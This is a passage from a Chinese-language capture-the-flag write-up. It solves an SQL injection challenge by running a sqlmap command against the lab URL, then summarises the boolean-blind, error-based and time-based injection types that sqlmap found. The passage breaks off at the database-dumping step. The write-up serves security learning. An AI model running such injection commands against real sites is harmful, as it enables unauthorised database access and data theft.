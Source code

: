 # [SWPUCTF 2021 新生赛]error

![image-20250803203524088](./NSSCTF-2.assets/image-20250803203524088.png)

输入'会报错，很明显是sql注入

## 方法一、SQLMAP

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" --batch
```

![image-20250803204044787](./NSSCTF-2.assets/image-20250803204044787.png)

### **结果分析**

- **目标 URL**：`http://node7.anna.nssctf.cn:20140/index.php?id=1`
- **数据库类型**：MySQL (MariaDB fork)，版本 ≥ 5.0
- **后端环境**：Nginx 1.14.2 + PHP 5.6.40
- **注入类型**：
  - **Boolean-based blind**（布尔盲注）：通过 `AND 2962=2962` 等逻辑判断页面响应。
  - **Error-based**（报错注入）：利用 `FLOOR(RAND())` 报错回显数据。
  - **Time-based blind**（基于时间的盲注）：利用 `SLEEP(5)` 判断。

SQLMap 识别到了三种有效的注入方式，因此目标可被进一步利用。

**爆库**
